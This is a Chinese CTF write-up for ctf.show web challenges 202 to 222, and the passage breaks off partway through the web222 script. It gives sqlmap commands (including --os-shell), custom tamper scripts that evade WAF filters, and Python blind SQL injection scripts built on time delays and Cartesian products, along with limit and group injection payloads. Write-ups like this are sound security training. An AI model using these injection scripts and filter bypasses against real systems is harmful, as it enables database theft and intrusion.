–data=DATA 通过POST发送数据参数，sqlmap会像检测GET参数一样检测POST的参数。

直接给payload了

```
plaintext
python3 sqlmap.py -u http://fd2e4296-abd1-4a84-b9c1-c24262dea2a6.challenge.ctf.show/api/ --data="id=1" --user-agent sqlmap --referer ctf.show -D ctfshow_web -T ctfshow_user -C pass --dump
```

### web203

#–method参数



–method=”xxx” 强制使用给定的HTTP方法(例如：PUT)

使用–method=”PUT”时，需要加上 –headers=”Content-Type: text/plain” 否则是按表单提交的，put接收不到

payload

```
plaintext
python3 sqlmap.py -u http://86ffe7af-f118-4848-8a4c-09b410298b56.challenge.ctf.show:8080/api/index.php --method="put" --user-agent sqlmap --referer ctf.show --headers="Content-Type: text/plain" --data="id=1" -D ctfshow_web -T ctfshow_user -C pass --dump
```

### web204

#–cookie参数



设置cookie可以通过后台对cookie的验证

sqlmap.php文件中响应标头中的set-cookie和请求标头中的PHPSESSID都需要客户端在下一次请求时发送给服务端

payload

```
plaintext
python3 sqlmap.py -u http://62ab32f3-d46b-4b44-a4b8-fea51589800d.challenge.ctf.show/api/index.php --method="put" --data="id=1" --user-agent sqlmap --referer ctf.show -headers="content-type:text/plain" --cookie="PHPSESSID=je3ssbqgn68psi3q1qa6fjcmbc;ctfshow=cc417a7da6909d583d4e0846fd9d4c5f" -D ctfshow_web -T ctfshow_user -C id,pass,username --dump
```

sqlmap 将使用这个 Cookie 进行请求。

### web205

#–safe安全设置



抓包发现在请求index.php之前还会请求一次getToken.php



所以我们–safe-url 参数设置在测试目标地址前访问的安全链接，将 url 设置为 api/getToken.php，再加上 –safe-preq=1 表示访问 api/getToken.php 一次

```
plaintext
--safe-url=SAFEURL  提供一个安全不错误的连接，每隔一段时间都会去访问一下

--safe-post=SAFE..  提供一个安全不错误的连接，每次测试请求之后都会再访问一遍安全连接。

--safe-req=SAFER..  从文件中加载安全HTTP请求

--safe-freq=SAFE..  测试一个给定安全网址的两个访问请求
```

`--safe-url=SAFEURL` 参数用于指定一个安全的 URL

主要功能

1. **安全性**：通过指定一个安全 URL，用户可以确保在测试期间，sqlmap 不会对敏感或关键的生产环境数据进行操作。
2. **蜜罐检测**：如果 sqlmap 发现某个请求被认为是危险的，它会将该请求重定向到用户指定的安全 URL，而不是执行原来的操作。这有助于减少对目标系统的风险。
3. **调试和验证**：在进行渗透测试时，使用安全 URL 可以帮助测试人员验证他们的请求是否正常工作，而不会对目标系统造成影响。

`--safe-freq=SAFE` 是 sqlmap 中的一个参数，用于设置安全请求的频率限制。这个参数主要用于控制 sqlmap 在执行 SQL 注入测试时发送请求的速率

主要功能

1. **频率控制**：通过设置请求的频率，用户可以控制 sqlmap 每秒发送的请求数量。这有助于在进行渗透测试时，减少对目标服务的压力。
2. **规避检测**：调低请求频率可以帮助测试者更好地规避目标网站的安全检测机制，降低被识别为攻击行为的风险。
3. **保护目标**：对目标系统友好的测试可以减少对系统性能的影响，特别是在生产环境中进行渗透测试时，确保不会干扰正常用户的使用。

payload

```
plaintext
python3 sqlmap.py -u http://4d06d46a-4e6e-43ab-8bd6-94e5b084dc4e.challenge.ctf.show/api/index.php --user-agent sqlmap --referer ctf.show --method="put" --data="id=1" --headers="content-type:text/plain" --cookie="PHPSESSID=000al1ev682ccon2rn8sqvrr5o;" --safe-url="http://4d06d46a-4e6e-43ab-8bd6-94e5b084dc4e.challenge.ctf.show/api/getToken.php" --safe-freq=1 -D ctfshow_web -T ctfshow_flax -C flagx,id,tes --dump
```

### web206

#注入payload闭合



这里看到sql语句发生了变化，出现了括号，不过sqlmap能自动进行闭合操作

那payload 是不变的

```
plaintext
python3 sqlmap.py -u https://16e2dbc5-b097-4a75-b4ed-def916f5ee74.challenge.ctf.show/api/index.php --user-agent sqlmap --referer ctf.show --method="put" --data="id=1" --headers="content-type:text/plain" --cookie="PHPSESSID=000al1ev682ccon2rn8sqvrr5o;" --safe-url="http://16e2dbc5-b097-4a75-b4ed-def916f5ee74.challenge.ctf.show/api/getToken.php" --safe-freq=1 -D ctfshow_web -T ctfshow_flax -C flagx,id,tes --dump
```

需要设置参数的话可以设置参数

```
plaintext
--prefix=PREFIX     注入payload字符串前缀
--suffix=SUFFIX     注入payload字符串后缀
```

### web207

#space2comment.py绕过空格



tamper的话就是sqlmap自带的绕过脚本，在sqlmap目录下的tamper文件夹中



可以使用`--identify-waf`对一些网站是否有安全防护进行试探，那我们返回来看题目，题目中是过滤了空格的，那我们看看那个脚本可以绕过空格绕过

space2comment.py

```
python
#!/usr/bin/env python
"""
Copyright (c) 2006-2025 sqlmap developers (https://sqlmap.org/)
See the file 'LICENSE' for copying permission
"""
from lib.core.compat import xrange
from lib.core.enums import PRIORITY
__priority__ = PRIORITY.LOW
def dependencies():
    pass
def tamper(payload, **kwargs):
    """
    Replaces space character (' ') with comments '/**/'
    Tested against:
        * Microsoft SQL Server 2005
        * MySQL 4, 5.0 and 5.5
        * Oracle 10g
        * PostgreSQL 8.3, 8.4, 9.0
    Notes:
        * Useful to bypass weak and bespoke web application firewalls
    >>> tamper('SELECT id FROM users')
    'SELECT/**/id/**/FROM/**/users'
    """
    retVal = payload
    if payload:
        retVal = ""
        quote, doublequote, firstspace = False, False, False
        for i in xrange(len(payload)):
            if not firstspace:
                if payload[i].isspace():
                    firstspace = True
                    retVal += "/**/"
                    continue
            elif payload[i] == '\'':
                quote = not quote
            elif payload[i] == '"':
                doublequote = not doublequote
            elif payload[i] == " " and not doublequote and not quote:
                retVal += "/**/"
                continue
            retVal += payload[i]
    return retVal
```

该脚本的主要作用是将 SQL 查询中的空格替换为 SQL 注释

这里可以看到会用/**/去替代我们的空格

那我们就用这个去打就能绕过空格了

```
plaintext
python3 sqlmap.py -u http://f45fe3ae-198d-4337-8a19-45f71cf671b2.challenge.ctf.show/api/index.php --method="PUT" --user-agent sqlmap --referer ctf.show --data="id=1" --cookie="PHPSESSID=kn1ntutpaei8875ksr0vfqk0i1;" --headers="Content-Type:text/plain" --safe-url=http://f45fe3ae-198d-4337-8a19-45f71cf671b2.challenge.ctf.show/api/getToken.php --safe-freq=1 --tamper=space2comment.py
```

常用的tamper脚本

```
plaintext
base64encode.py：对 payload 进行 Base64 编码。可以帮助绕过某些过滤器。

randomcase.py：将 SQL 注入 payload 中的字母随机大小写混合，有助于绕过一些简单的大小写敏感过滤。

space2comment.py：将空格替换为 SQL 注释符号（如 /**/），可用于绕过某些基于空格的过滤。

between.py：将 = 替换为 BETWEEN，在某些情况下可以绕过过滤。

time2sleep.py：使用 SLEEP 函数替代时间延迟的方式。这可以在时间盲注中有效。

unionalltoupdate.py：将 UNION ALL 替换为 UPDATE，有时可以避开某些检测。

modsecurityversioned.py：用于与 ModSecurity 一起工作，向请求中添加特定的版本信息。

concat.py：将 SQL 查询中的字符串拼接符 || 转换为 + 或 .，以适应不同数据库的语法。

char2hex.py：将字符转换为十六进制表示形式，有助于绕过某些字符过滤。
```

### web208

#randomcase.py绕过关键字



这里对select和空格都进行了过滤，那就还得用别的脚本了，这里我们用randomcase.py

randomcase.py

```
python
!/usr/bin/env python
"""
Copyright (c) 2006-2025 sqlmap developers (https://sqlmap.org/)
See the file 'LICENSE' for copying permission
"""
import re
from lib.core.common import randomRange
from lib.core.compat import xrange
from lib.core.data import kb
from lib.core.enums import PRIORITY
__priority__ = PRIORITY.NORMAL
def dependencies():
    pass
def tamper(payload, **kwargs):
    """
    Replaces each keyword character with random case value (e.g. SELECT -> SEleCt)
    Tested against:
        * Microsoft SQL Server 2005
        * MySQL 4, 5.0 and 5.5
        * Oracle 10g
        * PostgreSQL 8.3, 8.4, 9.0
        * SQLite 3
    Notes:
        * Useful to bypass very weak and bespoke web application firewalls
          that has poorly written permissive regular expressions
        * This tamper script should work against all (?) databases
    >>> import random
    >>> random.seed(0)
    >>> tamper('INSERT')
    'InSeRt'
    >>> tamper('f()')
    'f()'
    >>> tamper('function()')
    'FuNcTiOn()'
    >>> tamper('SELECT id FROM `user`')
    'SeLeCt id FrOm `user`'
    """
    retVal = payload
    if payload:
        for match in re.finditer(r"\b[A-Za-z_]{2,}\b", retVal):
            word = match.group()
            if (word.upper() in kb.keywords and re.search(r"(?i)[`\"'\[]%s[`\"'\]]" % word, retVal) is None) or ("%s(" % word) in payload:
                while True:
                    _ = ""
                    for i in xrange(len(word)):
                        _ += word[i].upper() if randomRange(0, 1) else word[i].lower()
                    if len(_) > 1 and _ not in (_.lower(), _.upper()):
                        break
                retVal = retVal.replace(word, _)
    return retVal
```

该脚本的作用是将 SQL 注入 payload 中的字母随机大小写混合，有助于绕过一些简单的大小写敏感过滤。

payload

```
plaintext
python3 sqlmap.py -u http://de1a8bb8-85b2-42dc-89f8-8e2290303ac7.challenge.ctf.show/api/index.php --method="PUT" --user-agent sqlmap --referer ctf.show --data="id=1" --cookie="PHPSESSID=h4dcnkdl0hd2on1l3p6gnhlefb;" --headers="Content-Type:text/plain" --safe-url=https://de1a8bb8-85b2-42dc-89f8-8e2290303ac7.challenge.ctf.show/api/getToken.php --safe-freq=1 --tamper=space2comment.py,randomcase.py -D ctfshow_web -T ctfshow_flaxcac -C flagvca --dump
```

### web209

#绕过/*/空格/=/的tamper



好像过滤更多字符了，*号也被过滤了，那我们的space2comment.py脚本用不了了，但是我们可以自己写个tamper脚本，把原先的space2comment.py里面的替换字符串换成可以绕过空格验证的，然后再加上绕过=等于号的条件就可以了

修改后的脚本

```
python
#!/usr/bin/env python
"""
Copyright (c) 2006-2025 sqlmap developers (https://sqlmap.org/)
See the file 'LICENSE' for copying permission
"""
from lib.core.compat import xrange
from lib.core.enums import PRIORITY
__priority__ = PRIORITY.LOW
def dependencies():
    pass
def tamper(payload, **kwargs):
    """
    Replaces space character (' ') with comments '/**/'
    Tested against:
        * Microsoft SQL Server 2005
        * MySQL 4, 5.0 and 5.5
        * Oracle 10g
        * PostgreSQL 8.3, 8.4, 9.0
    Notes:
        * Useful to bypass weak and bespoke web application firewalls
    >>> tamper('SELECT id FROM users')
    'SELECT/**/id/**/FROM/**/users'
    """
    retVal = payload
    if payload:
        retVal = ""
        quote, doublequote, firstspace = False, False, False

        for i in xrange(len(payload)):
            if not firstspace:
                if payload[i].isspace():
                    firstspace = True
                    retVal += chr(0x0a)
                    continue

            elif payload[i] == '\'':
                quote = not quote

            elif payload[i] == '"':
                doublequote = not doublequote

            elif payload[i] == '=':
                retVal += chr(0x0a)+'like'+chr(0x0a)
                continue
            
            elif payload[i] == '*':
                retVal += chr(0x0a)
                continue

            elif payload[i] == " " and not doublequote and not quote:
                retVal += chr(0x0a)
                continue

            retVal += payload[i]

    return retVal
```

payload

```
plaintext
python3 sqlmap.py -u http://fa365078-0c4d-4ca2-afcf-54f5e757760c.challenge.ctf.show/api/index.php --method="PUT" --user-agent sqlmap --referer ctf.show --data="id=1" --cookie="PHPSESSID=kn1ntutpaei8875ksr0vfqk0i1;" --headers="Content-Type:text/plain" --safe-url=http://fa365078-0c4d-4ca2-afcf-54f5e757760c.challenge.ctf.show/api/getToken.php --safe-freq=1 --tamper=tamper/web209.py -D ctfshow_web -T ctfshow_flav -C ctfshow_flagx --dump
```

### web210

#反转+base64编码的tamper



照着waf去写tamper就可以了

```
python
#!/usr/bin/env python
"""
Copyright (c) 2006-2025 sqlmap developers (https://sqlmap.org/)
See the file 'LICENSE' for copying permission
"""
from lib.core.compat import xrange
from lib.core.enums import PRIORITY
import base64
__priority__ = PRIORITY.LOW
def dependencies():
    pass
def tamper(payload, **kwargs):
    """
    Replaces space character (' ') with comments '/**/'
    Tested against:
        * Microsoft SQL Server 2005
        * MySQL 4, 5.0 and 5.5
        * Oracle 10g
        * PostgreSQL 8.3, 8.4, 9.0
    Notes:
        * Useful to bypass weak and bespoke web application firewalls
    >>> tamper('SELECT id FROM users')
    'SELECT/**/id/**/FROM/**/users'
    """
    retVal = payload
    if payload:
        retVal=retVal.encode()
        retVal=retVal[::-1]
        retVal=base64.b64encode(retVal)
        retVal=retVal[::-1]
        retVal=base64.b64encode(retVal)
    return retVal.decode()
```

那我们的payload就是

```
plaintext
python3 sqlmap.py -u http://057ed506-470f-4399-877a-5a8c3b55f2ab.challenge.ctf.show/api/index.php --method="PUT" --user-agent sqlmap --referer ctf.show --data="id=1" --cookie="PHPSESSID=eioqv5apahcu216l07msg1bmvo;" --headers="Content-Type:text/plain" --safe-url=http://057ed506-470f-4399-877a-5a8c3b55f2ab.challenge.ctf.show/api/getToken.php --safe-freq=1 --tamper=web210.py --batch -D ctfshow_web -T ctfshow_flavi -C ctfshow_flagxx --dump
```

### web211

#反转+base64编码+绕过空格



没啥难度，要啥就写啥

```
plaintext
python3 sqlmap.py -u http://9bb4866c-81b4-470f-a589-7d96100eef9c.challenge.ctf.show/api/index.php --method="PUT" --user-agent sqlmap --referer ctf.show --data="id=1" --cookie="PHPSESSID=0kfnfjjphjp8ut8lnqv0scscq6;" --headers="Content-Type:text/plain" --safe-url=http://9bb4866c-81b4-470f-a589-7d96100eef9c.challenge.ctf.show/api/getToken.php --safe-freq=1 --tamper=web211.py
```

tamper

```
python
#!/usr/bin/env python
"""
Copyright (c) 2006-2025 sqlmap developers (https://sqlmap.org/)
See the file 'LICENSE' for copying permission
"""
from lib.core.compat import xrange
from lib.core.enums import PRIORITY
import base64
__priority__ = PRIORITY.LOW
def dependencies():
    pass
def tamper(payload, **kwargs):
    """
    Replaces space character (' ') with comments '/**/'
    Tested against:
        * Microsoft SQL Server 2005
        * MySQL 4, 5.0 and 5.5
        * Oracle 10g
        * PostgreSQL 8.3, 8.4, 9.0
    Notes:
        * Useful to bypass weak and bespoke web application firewalls
    >>> tamper('SELECT id FROM users')
    'SELECT/**/id/**/FROM/**/users'
    """
    retVal = payload
    if payload:
        retVal = ""
        quote, doublequote, firstspace = False, False, False
        for i in xrange(len(payload)):
            if not firstspace:
                if payload[i].isspace():
                    firstspace = True
                    retVal += "/**/"
                    continue
            elif payload[i] == '\'':
                quote = not quote
            elif payload[i] == '"':
                doublequote = not doublequote
            elif payload[i] == " " and not doublequote and not quote:
                retVal += "/**/"
                continue
            retVal += payload[i]
    if payload:
        retVal=retVal.encode()
        retVal=retVal[::-1]
        retVal=base64.b64encode(retVal)
        retVal=retVal[::-1]
        retVal=base64.b64encode(retVal)
    return retVal.decode()
```

### web212

#211plus版tamper



就是前几个脚本waf的集合

```
python
#!/usr/bin/env python
"""
Copyright (c) 2006-2025 sqlmap developers (https://sqlmap.org/)
See the file 'LICENSE' for copying permission
"""
from lib.core.compat import xrange
from lib.core.enums import PRIORITY
import base64
__priority__ = PRIORITY.LOW
def dependencies():
    pass
def tamper(payload, **kwargs):
    """
    Replaces space character (' ') with comments '/**/'
    Tested against:
        * Microsoft SQL Server 2005
        * MySQL 4, 5.0 and 5.5
        * Oracle 10g
        * PostgreSQL 8.3, 8.4, 9.0
    Notes:
        * Useful to bypass weak and bespoke web application firewalls
    >>> tamper('SELECT id FROM users')
    'SELECT/**/id/**/FROM/**/users'
    """
    retVal = payload
    if payload:
        retVal = ""
        quote, doublequote, firstspace = False, False, False

        for i in xrange(len(payload)):
            if not firstspace:
                if payload[i].isspace():
                    firstspace = True
                    retVal += chr(0x0a)
                    continue

            elif payload[i] == '\'':
                quote = not quote

            elif payload[i] == '"':
                doublequote = not doublequote
            
            elif payload[i] == '*':
                retVal += chr(0x0a)
                continue

            elif payload[i] == " " and not doublequote and not quote:
                retVal += chr(0x0a)
                continue

            retVal += payload[i]

    if payload:
        retVal=retVal.encode()
        retVal=retVal[::-1]
        retVal=base64.b64encode(retVal)
        retVal=retVal[::-1]
        retVal=base64.b64encode(retVal)
    return retVal.decode()
```

payload

```
plaintext
python3 sqlmap.py -u http://afdc1158-aee3-4928-857b-b78e71ff6d88.challenge.ctf.show/api/index.php --method="PUT" --data="id=1" --user-agent=sqlmap --referer="http://afdc1158-aee3-4928-857b-b78e71ff6d88.challenge.ctf.show/sqlmap.php" --cookie="PHPSESSID=urnvf6582lubt0pjrr5sk518q2;" --header="Content-Type:text/plain" --safe-url=https://afdc1158-aee3-4928-857b-b78e71ff6d88.challenge.ctf.show/api/getToken.php --safe-freq=1 --tamper=web212.py --batch -D ctfshow_web -T ctfshow_flavis --dump
```

### web213



考的是用–os-shell参数去getshell

os-shell的使用条件
（1）网站必须是root权限
（2）攻击者需要知道网站的绝对路径
（3）GPC为off，php主动转义的功能关闭

payload

```
plaintext
python3 sqlmap.py -u "https://a58afa16-b03f-4cca-869b-640aca35b94d.challenge.ctf.show/api/index.php" --safe-url="https://a58afa16-b03f-4cca-869b-640aca35b94d.challenge.ctf.show/api/getToken.php" --safe-freq=1 --method=PUT --data "id=1" --header=Content-Type:text/plain --user-agent=sqlmap --cookie="PHPSESSID=u1193e84h0fp64kqv00rd6ubt5" --tamper=web212.py --referer=ctf.show --os-shell
```



选择服务器类型

1. **ASP (Active Server Pages)**: 一种由微软开发的服务器端脚本技术，允许开发者在网页中嵌入 VBScript 或 JScript 代码。
2. **ASPX**: 是 [ASP.NET](http://asp.net/) 的页面文件扩展名，[ASP.NET](http://asp.net/) 是微软的一个Web开发框架，支持多种编程语言（如 C# 和 [VB.NET](http://vb.net/)），用于创建动态网页和Web应用程序。
3. **JSP (JavaServer Pages)**: 一个由 Java 提供支持的技术，允许在 HTML 页面中嵌入 Java 代码，以生成动态内容。
4. **PHP**: 一种广泛使用的开源脚本语言，主要用于Web开发，允许开发者将代码嵌入到HTML中。它是您提到的默认语言。

## 时间盲注

### web214

没找到参数，我记得之前有一个工具是可以探测参数的

Arjun

也可以在index下的select.js中看到参数



```
ip=1&debug=1
```

这里debug得设为1才能出现回显



ip是查询语句中的参数，看一下延迟时间

```
ip=1 or sleep(2)#&debug=1
```

大概两秒左右，那其实是差不多，写脚本吧

```python
import requests
import time

url = "http://03356e28-c215-4129-97db-2f9864c35ca2.challenge.ctf.show/api/"
i = 0
flag = ""

while True:
    i = i + 1
    head = 32
    tail = 127

    while head < tail :
        mid = (head + tail) // 2
        #payload = "if(ascii(substr(database(),{0},1))>{1},sleep(4),0)#".format(i,mid)
        #payload = "if(ascii(substr((select group_concat(table_name)from information_schema.tables where table_schema=database()),{0},1))>{1},sleep(4),1)#".format(i,mid)
        #payload = "if(ascii(substr((select group_concat(column_name)from information_schema.columns where table_name='ctfshow_flagx'),{0},1))>{1},sleep(4),1)#".format(i, mid)
        payload = "if(ascii(substr((select flaga from ctfshow_flagx),{0},1))>{1},sleep(4),1)#".format(i, mid)
        data = {
            "ip" : payload,
            "debug" : 1,
        }
        print(data)
        start_time = time.time()
        r = requests.post(url, data=data)
        request_time = time.time() - start_time

        if request_time > 3:
            head = mid + 1
        else :
            tail = mid
    if head != 32 :
        flag += chr(head)
        print(flag)
    else :
        break
print(flag)
```

### web215

这次是字符型，用了单引号，去闭合就行了

```
ip=1' or sleep(2)#&debug=1
```

然后写脚本

```python
import requests
import time

url = "http://9a7beb5f-6196-4c37-ae56-b0bf74a95924.challenge.ctf.show/api/"
i = 0
flag = ""

while True:
    i = i + 1
    head = 32
    tail = 127

    while head < tail:
        mid = (head + tail) // 2

        #payload = f"' or if(ascii(substr(database(),{i},1))>{mid},sleep(3),0)#"
        #payload = f"' or if(ascii(substr((select group_concat(table_name)from information_schema.tables where table_schema=database()),{i},1))>{mid},sleep(3),0)#"
        #payload = f"' or if(ascii(substr((select group_concat(column_name)from information_schema.columns where table_name='ctfshow_flagxc'),{i},1))>{mid},sleep(3),0)#"
        payload = f"' or if(ascii(substr((select flagaa from ctfshow_flagxc),{i},1))>{mid},sleep(3),0)#"
        data = {
            "ip" : payload,
            "debug" : 1
        }
        start_time = time.time()
        r = requests.post(url, data=data)
        end_time = time.time() - start_time

        if end_time > 2.5:
            head = mid + 1
        else :
            tail = mid
    if head != 32:
        flag += chr(head)
        print(flag)
    else :
        break
print(flag)
```

### web216

```
select id from ctfshow_info where ip = from_base64(1);
```

还是一样，闭合就行了

```
ip=1) or sleep(3)#&debug=1
```

脚本

```python
import requests
import time

url = "http://c3d07a22-e8ee-4b69-9fe0-2b5900d6720e.challenge.ctf.show/api/"
i = 0
flag = ""

while True:
    i = i + 1
    head = 32
    tail = 127

    while head < tail:
        mid = (head + tail) // 2

        #payload = f"1) or if(ascii(substr(database(),{i},1))>{mid},sleep(3),0)#"
        #payload = f"1) or if(ascii(substr((select group_concat(table_name)from information_schema.tables where table_schema=database()),{i},1))>{mid},sleep(3),0)#"
        #payload = f"1) or if(ascii(substr((select group_concat(column_name)from information_schema.columns where table_name='ctfshow_flagxcc'),{i},1))>{mid},sleep(3),0)#"
        payload = f"' or if(ascii(substr((select flagaac from ctfshow_flagxcc),{i},1))>{mid},sleep(3),0)#"
        data = {
            "ip" : payload,
            "debug" : 1
        }
        start_time = time.time()
        r = requests.post(url, data=data)
        end_time = time.time() - start_time

        if end_time > 2.5:
            head = mid + 1
        else :
            tail = mid
    if head != 32:
        flag += chr(head)
        print(flag)
    else :
        break
print(flag)
```

### web217

过滤了sleep函数，可以用benchmark函数去绕过

```python
import requests
import time

url = "http://c9b5a9bb-df7d-4de0-9eed-7f5dff7b66d0.challenge.ctf.show/api/"
i = 0
flag = ""

while True:
    i = i + 1
    head = 32
    tail = 127

    while head < tail:
        mid = (head + tail) // 2

        #payload = f"1) or if(ascii(substr(database(),{i},1))>{mid},benchmark(1000000,md5('1')),0)#"
        #payload = f"1) or if(ascii(substr((select group_concat(table_name)from information_schema.tables where table_schema='ctfshow_web'),{i},1))>{mid},benchmark(10000000, MD5('test')),0)#"
        #payload = f"1) or if(ascii(substr((select group_concat(column_name)from information_schema.columns where table_name='ctfshow_flagxccb'),{i},1))>{mid},benchmark(10000000, MD5('test')),0)#"
        payload = f"1）or if(ascii(substr((select flagaabc from ctfshow_flagxccb),{i},1))>{mid},benchmark(100000000, MD5('test')),0)#"
        data = {
            "ip" : payload,
            "debug" : 1
        }
        print(data)
        start_time = time.time()
        r = requests.post(url, data=data)
        end_time = time.time() - start_time

        if end_time > 2.5:
            head = mid + 1
        else :
            tail = mid
    if head != 32:
        flag += chr(head)
        print(flag)
    else :
        break
print(flag)
```

不得不说这个时间确实不太稳定，后面爆数据的时候把benchmark的次数改了很多次

### web218



查询语句变了，参数是id，这次sleep和benchmark函数都被禁用了，但是这里的话输入点还是和之前是一样的

```
select id from ctfshow_info where ip = (1);
```

这里的话可以用笛卡尔积去做



那就测一下延迟吧

不得不说这个测的真挺麻烦的，每次要么太少要么太多

如果是用columns的话两个太少三个太多，最后还是决定用三个tables的

```mysql
ip=1) or if(ascii(substr(database(),1,1))>0,(select count(*) from information_schema.tables A, information_schema.tables B,information_schema.tables C),0)%23&debug=1
```

那就写脚本吧

```python
import requests
import time

url = "http://e37fb63a-1945-44db-9885-cfa468e30d51.challenge.ctf.show/api/"
i = 0
flag = ""

while True:
    i = i + 1
    head = 32
    tail = 127

    while head < tail:
        mid = (head + tail) // 2

        #payload = f"1) or if(ascii(substr((select group_concat(table_name)from information_schema.tables where table_schema=database()),{i},1))>{mid},(select count(*) from information_schema.tables A, information_schema.tables B,information_schema.tables C),0)#"
        #payload = f"1) or if(ascii(substr((select group_concat(column_name)from information_schema.columns where table_name='ctfshow_flagxc'),{i},1))>{mid},(select count(*) from information_schema.tables A, information_schema.tables B,information_schema.tables C),0)#"
        payload = f"1) or if(ascii(substr((select flagaac from ctfshow_flagxc),{i},1))>{mid},(select count(*) from information_schema.tables A, information_schema.tables B,information_schema.tables C),0)#"
        data = {
            "ip" : payload,
            "debug" : 1,
        }
        print(payload)
        start = time.time()
        r = requests.post(url, data=data)
        end = time.time() - start

        if end > 1:
            head = mid + 1
        else :
            tail = mid
    if head != 32:
        flag += chr(head)
        print(flag)
    else:
        break
print(flag)
```

回来做一下rlike的做法，常规测延迟

```
ip=1) or if(ascii(substr(database(),1,1))>0,(select concat(rpad(1,999999,'a'),rpad(1,999999,'a'),rpad(1,999999,'a'),rpad(1,999999,'a'),rpad(1,999999,'a'),rpad(1,999999,'a'),rpad(1,999999,'a'),rpad(1,999999,'a'),rpad(1,999999,'a'),rpad(1,999999,'a'),rpad(1,999999,'a'),rpad(1,999999,'a'),rpad(1,999999,'a'),rpad(1,999999,'a'),rpad(1,999999,'a'),rpad(1,999999,'a')) RLIKE concat(repeat('(a.*)+',7),'b')),0)#&debug=1
```

测了大半天才测出来，延迟大概4s左右，照着改脚本就行

### web219

才发现上把预期是用rlike去打盲注的，那又得返回去做一下，既然这样的话那这道题就是用笛卡尔积去做的

```
ip=1)+or+if(ascii(substr(database()%2c1%2c1))%3e0%2c(SELECT+count(*)+FROM+information_schema.tables+A%2c+information_schema.tables+B%2c+information_schema.schemata+D%2c+information_schema.schemata+E%2c+information_schema.schemata+F%2cinformation_schema.schemata+G)%2c0)%23&debug=1
```

这里的话刚好延迟是3-4s左右

```python
import requests
import time

url = "http://91f68e53-629c-42c8-9ba1-dc0fa6092341.challenge.ctf.show/api/"
i = 0
flag = ""

while True:
    i = i + 1
    head = 32
    tail = 127

    while head < tail:
        mid = (head + tail) // 2

        #payload = f"1) or if(ascii(substr(database(),{i},1))>{mid},(select count(*) FROM information_schema.tables A, information_schema.tables B, information_schema.schemata D, information_schema.schemata E, information_schema.schemata F,information_schema.schemata G),0)#"
        #payload = f"1) or if(ascii(substr((select group_concat(table_name)from information_schema.tables where table_schema='ctfshow_web'),{i},1))>{mid},(select count(*) FROM information_schema.tables A, information_schema.tables B, information_schema.schemata D, information_schema.schemata E, information_schema.schemata F,information_schema.schemata G),0)#"
        #payload = f"1) or if(ascii(substr((select group_concat(column_name)from information_schema.columns where table_name='ctfshow_flagxca'),{i},1))>{mid},(select count(*) FROM information_schema.tables A, information_schema.tables B, information_schema.schemata D, information_schema.schemata E, information_schema.schemata F,information_schema.schemata G),0)#"
        payload = f"1) or if(ascii(substr((select flagaabc from ctfshow_flagxca),{i},1))>{mid},(select count(*) FROM information_schema.tables A, information_schema.tables B, information_schema.schemata D, information_schema.schemata E, information_schema.schemata F,information_schema.schemata G),0)#"
        data = {
            "ip" : payload,
            "debug" : 1,
        }
        start = time.time()
        r = requests.post(url, data=data)
        end = time.time() - start

        if end > 2.5:
            head = mid + 1
        else :
            tail = mid
    if head != 32:
        flag += chr(head)
        print(flag)
    else:
        break
print(flag)
```

### web220

```
//屏蔽危险分子
function waf($str){
    return preg_match('/sleep|benchmark|rlike|ascii|hex|concat_ws|concat|mid|substr/i',$str);
}   
```

这里过滤还是挺多的，但是之前也学过绕过的方法了

字符集遍历绕过ascii就行，left+like绕过substr和mid，然后盲注的话用笛卡尔就行

试着写一下payload

```
ip=1) or if(left(database(),{i})= \"{flag+j}\",(select count(*) FROM information_schema.tables A, information_schema.tables B, information_schema.schemata D, information_schema.schemata E, information_schema.schemata F,information_schema.schemata G),0)#&debug=1
```

大概延迟6-7秒左右，不管了，慢点就慢点吧

但是发现这几个切片函数都不能和`group_concat`共用，用limit语句限制一下输出吧

脚本

```python
import requests
import time

url = "http://fcd017bc-038f-40e2-9f43-f2055436b4d9.challenge.ctf.show/api/"
strings="_-{}abcdefghijklmnopqrstuvwxyz0123456789"

target = ""
for i in range(1,100):
    found = 0
    for j in strings:
        #payload = f"1) or if(left(database(),{i})= \"{target+j}\",(select count(*) FROM information_schema.tables A, information_schema.tables B, information_schema.schemata D, information_schema.schemata E, information_schema.schemata F,information_schema.schemata G),0)#"
        #payload = f"1) or if(left((select table_name from information_schema.tables where table_schema=database() limit 0,1),{i})= \"{target+j}\",(select count(*) FROM information_schema.tables A, information_schema.tables B, information_schema.schemata D, information_schema.schemata E, information_schema.schemata F,information_schema.schemata G),0)#"
        #payload = f"1) or if(left((select column_name from information_schema.columns where table_name='ctfshow_flagxcac' limit 1,1),{i})= \"{target+j}\",(select count(*) FROM information_schema.tables A, information_schema.tables B, information_schema.schemata D, information_schema.schemata E, information_schema.schemata F,information_schema.schemata G),0)#"
        payload = f"1) or if(left((select flagaabcc from ctfshow_flagxcac limit 0,1),{i})= \"{target+j}\",(select count(*) FROM information_schema.tables A, information_schema.tables B, information_schema.schemata D, information_schema.schemata E, information_schema.schemata F,information_schema.schemata G),0)#"
        #print(payload)
        data = {
            "ip": payload,
            "debug": 1,
        }
        start = time.time()
        r = requests.post(url, data=data)
        end = time.time() - start
        if end >= 4:
            found = 1
            target += j
            print(target)
            break
    if not found:
        print(target)
        exit()
```

## 其他注入

### limit注入

### web221

查询语句

```
  //分页查询
  $sql = select * from ctfshow_user limit ($page-1)*$limit,$limit;
      
```

返回逻辑

```
//TODO:很安全，不需要过滤
//拿到数据库名字就算你赢
```

这里的话就是limit注入了，这里有两个参数$page和$limit，测试一下

```
?page=1&limit=1 procedure analyse(extractvalue(rand(),concat(0x7e,version())),1)
回显
{"code":0,"msg":"\u67e5\u8be2\u5931\u8d25XPATH syntax error: '~10.3.18-MariaDB'","count":"0","data":[]}
```

拿数据库

```
?page=1&limit=1 procedure analyse(extractvalue(rand(),concat(0x7e,database())),1)
回显
{"code":0,"msg":"\u67e5\u8be2\u5931\u8d25XPATH syntax error: '~ctfshow_web_flag_x'","count":"0","data":[]}
```

数据库名字就是flag

### group注入

### web222

查询语句

```
  //分页查询
  $sql = select * from ctfshow_user group by $username;
      
```

返回逻辑

```
//TODO:很安全，不需要过滤
```

group注入有两种，报错和延迟，这里的话没回显，直接打延迟，参数是u

```
/api/?u=if(ascii(substr(database(),1,1))>0,sleep(1),1)if(ascii(substr(database(),1,1))>0,sleep(1),1)
```

发现一共延迟了21s左右，估计有21条数据，我们用sleep(0.2)吧

写脚本

```python
import requests
import time

url = "http://ebfe1f77-39ae-4732-9e96-edfeb30a0bf9.challenge.ctf.show/api/"
i = 0
target = ""

while True:
    i = i + 1
    head = 32
    tail = 127

    while head < tail:
        mid = (head + tail) // 2
